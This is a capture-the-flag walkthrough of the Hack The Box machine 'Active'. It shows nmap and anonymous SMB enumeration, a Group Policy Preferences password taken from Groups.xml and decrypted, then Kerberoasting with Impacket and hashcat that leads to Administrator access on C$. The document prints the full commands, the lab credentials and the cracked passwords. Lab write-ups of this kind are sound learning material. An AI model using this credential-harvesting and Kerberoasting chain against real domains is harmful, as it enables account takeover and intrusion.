

# Walkthrough: Active HTB Machine



We started by running a comprehensive Nmap scan to identify open ports and gather detailed information about the target, **10.10.10.100**.
```bash
nmap -A -sV -sC 10.10.10.100 -Pn

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 12:46 IST
Nmap scan report for 10.10.10.100
Host is up (0.074s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 10:46:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/12%OT=53%CT=1%CU=36170%PV=Y%DS=2%DC=T%G=Y%TM=673
OS:3325A%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%
OS:TS=7)SEQ(SP=FD%GCD=2%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=FE%GCD=1%IS
OS:R=10C%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=FF%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS
OS:=S%TS=7)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11
OS:%O5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%
OS:W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%R
OS:D=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=
OS:0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-12T10:47:46
|_  start_date: 2024-11-12T10:24:20
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   74.99 ms 10.10.14.1
2   75.27 ms 10.10.10.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.35 seconds

```

The scan results showed several open ports, with key services like **Microsoft DNS**, **Kerberos**, **LDAP**, and **Microsoft RPC** running. Notably, port **445/tcp** (Microsoft-DS) was open, which suggests that SMB (Server Message Block) services might be available for further enumeration.

To explore SMB shares on the target, we used **`smbclient`** with anonymous login:
```bash
smbclient -N -L \\\\10.10.10.100\\ 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
Reconnecting with SMB1 for workgroup listing.

```
We attempted to connect to the **`Replication`** share as an anonymous user:
```bash
smbclient //10.10.10.100/Replication
Password for [WORKGROUP\foxilove]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> ls
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  active.htb                          D        0  Sat Jul 21 13:37:44 2018

\active.htb
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 13:37:44 2018
  Policies                            D        0  Sat Jul 21 13:37:44 2018
  scripts                             D        0  Wed Jul 18 21:48:57 2018

\active.htb\DfsrPrivate
  .                                 DHS        0  Sat Jul 21 13:37:44 2018
  ..                                DHS        0  Sat Jul 21 13:37:44 2018
  ConflictAndDeleted                  D        0  Wed Jul 18 21:51:30 2018
  Deleted                             D        0  Wed Jul 18 21:51:30 2018
  Installing                          D        0  Wed Jul 18 21:51:30 2018

\active.htb\Policies
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sat Jul 21 13:37:44 2018
  {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sat Jul 21 13:37:44 2018

\active.htb\scripts
  .                                   D        0  Wed Jul 18 21:48:57 2018
  ..                                  D        0  Wed Jul 18 21:48:57 2018

\active.htb\DfsrPrivate\ConflictAndDeleted
  .                                   D        0  Wed Jul 18 21:51:30 2018
  ..                                  D        0  Wed Jul 18 21:51:30 2018

\active.htb\DfsrPrivate\Deleted
  .                                   D        0  Wed Jul 18 21:51:30 2018
  ..                                  D        0  Wed Jul 18 21:51:30 2018

\active.htb\DfsrPrivate\Installing
  .                                   D        0  Wed Jul 18 21:51:30 2018
  ..                                  D        0  Wed Jul 18 21:51:30 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  GPT.INI                             A       23  Wed Jul 18 23:46:06 2018
  Group Policy                        D        0  Sat Jul 21 13:37:44 2018
  MACHINE                             D        0  Sat Jul 21 13:37:44 2018
  USER                                D        0  Wed Jul 18 21:49:12 2018

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  GPT.INI                             A       22  Wed Jul 18 21:49:12 2018
  MACHINE                             D        0  Sat Jul 21 13:37:44 2018
  USER                                D        0  Wed Jul 18 21:49:12 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  GPE.INI                             A      119  Wed Jul 18 23:46:06 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Microsoft                           D        0  Sat Jul 21 13:37:44 2018
  Preferences                         D        0  Sat Jul 21 13:37:44 2018
  Registry.pol                        A     2788  Wed Jul 18 21:53:45 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\USER
  .                                   D        0  Wed Jul 18 21:49:12 2018
  ..                                  D        0  Wed Jul 18 21:49:12 2018

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Microsoft                           D        0  Sat Jul 21 13:37:44 2018

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\USER
  .                                   D        0  Wed Jul 18 21:49:12 2018
  ..                                  D        0  Wed Jul 18 21:49:12 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Windows NT                          D        0  Sat Jul 21 13:37:44 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Groups                              D        0  Sat Jul 21 13:37:44 2018

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Windows NT                          D        0  Sat Jul 21 13:37:44 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  SecEdit                             D        0  Sat Jul 21 13:37:44 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 23:46:06 2018

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  SecEdit                             D        0  Sat Jul 21 13:37:44 2018

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  GptTmpl.inf                         A     1098  Wed Jul 18 21:49:12 2018

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  GptTmpl.inf                         A     3722  Wed Jul 18 21:49:12 2018

		5217023 blocks of size 4096. 278587 blocks available
smb: \> 
```
we found an interesting file in the directory `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups`. We navigated to this directory using the `cd` command:
```bash
smb: \> cd /active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
```
Inside the directory, we found several items, including the **Groups.xml** file, which caught our attention:
```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 13:37:44 2018
  ..                                  D        0  Sat Jul 21 13:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 23:46:06 2018
```
We then used the `get` command to download this file to our machine:
```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml

```
After examining the content of the file, we found an entry for the user . The file contained the encrypted password () for this user: **SVC_TGS** and cpassword **edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ**
```bash
cat Groups.xml

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
The password was encrypted using the Group Policy Preferences (GPP) method, but we used the tool to decrypt it:gpp-decrypt
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
This provided us with the following credentials:
- **Username:** SVC_TGS
- **Password:** GPPstillStandingStrong2k18
Using these credentials, we connected to the target's SMB share to access the `Users` directory:
```bash
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
```
Once connected, we navigated to the user’s desktop directory and retrieved the `user.txt` flag
```bash
smb: \SVC_TGS\Desktop\> get user.txt
```
**Privilege Escalation**

**Set Up a Virtual Environment**  
   ```bash
   python3 -m venv env
   source env/bin/activate
   pip install impacket
   ```
   - First, a virtual environment is created to manage Python dependencies cleanly, ensuring that the necessary Impacket library is isolated for this session.

**Enumerate SPNs with Kerberos (Kerberoasting)**  
   ```bash
   GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
   ```
   - Using Impacket’s `GetUserSPNs.py` script, a request is sent to list Service Principal Names (SPNs) associated with accounts. The `-request` option asks for a Ticket Granting Service (TGS) ticket, which is saved to a file for further analysis.

**Crack the Kerberos TGS Hash**  
   ```bash
   hashcat -m 13100 -a 0 GetUserSPNs.out SecLists/Passwords/rockyou.txt
   ```
   - Use `hashcat` to crack the Kerberos hash obtained earlier. The `-m 13100` mode is specifically for Kerberoasting, and `rockyou.txt` is a commonly used wordlist. The cracked password reveals administrative credentials for the target.

**Access the Target System as Administrator**  
   ```bash
   smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
   ```
   - With the cracked credentials, `smbclient` is used to access the remote machine’s root share (`C$`) as the `Administrator`. Successful access grants control over administrative resources on the target system.

**Retrieve the Flag**  
   ```bash
   smb: \users\administrator\desktop\> get root.txt
   ```
   - After navigating to the Administrator's desktop, retrieve the `root.txt` file to complete the privilege escalation and obtain the final flag.

